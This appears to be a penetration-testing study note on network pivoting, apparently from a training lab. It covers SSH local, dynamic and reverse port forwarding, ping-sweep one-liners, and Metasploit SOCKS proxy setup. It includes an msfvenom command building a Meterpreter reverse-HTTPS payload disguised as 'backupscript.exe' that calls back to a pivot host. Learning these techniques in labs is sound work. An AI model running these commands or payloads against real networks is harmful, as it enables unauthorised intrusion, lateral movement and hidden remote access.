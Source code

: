 ## Tunneling
*These types of actions also enable tactics like the exfiltration of data out of a target network or the delivery of more payloads and instructions into the network.*
Network Interfaces

| Int Name | Use                                |
| -------- | ---------------------------------- |
| eth      | Classic, unpredictable             |
| eno      | Firmware/BIOS indexed              |
| ens      | Firmware/BIOS indexed PCIE Hotplug |
| enXs     | Physical location of connector     |
| enx      | Name incorporating a MAC address   |

### Dynamic Port Forwarding with SSH and SOCKS Tunneling
![[../Pasted image 20250604155036.png]]


Local port forward
```
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
Multiple Local Port Forward
```
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```
Dynamic Port Forwarding with SSH and SOCKS Tunneling
```
ssh -D 9050 ubuntu@10.129.202.64
```
(use 9050 or whatever port is in your `/etc/proxychains.conf` file as the main port)

### Remote/Reverse Port Forwarding with SSH
*Instead of forwarding a port to access a service we forward a service to a port*

Making an MSFVenom payload to forward traffic to our pivot
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
This would go from port 8080 on the new target to 8000 of the pivot. Use the exploit/multi/handler to connect a listener. 

SSH reverse port forward 
```
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
If you want to receive a data from all IP addresses on a local machine use the IP 0.0.0.0
### Meterpreter Tunneling & Port Forwarding
Manual ping sweeps in shells
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
To set one up run 
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
```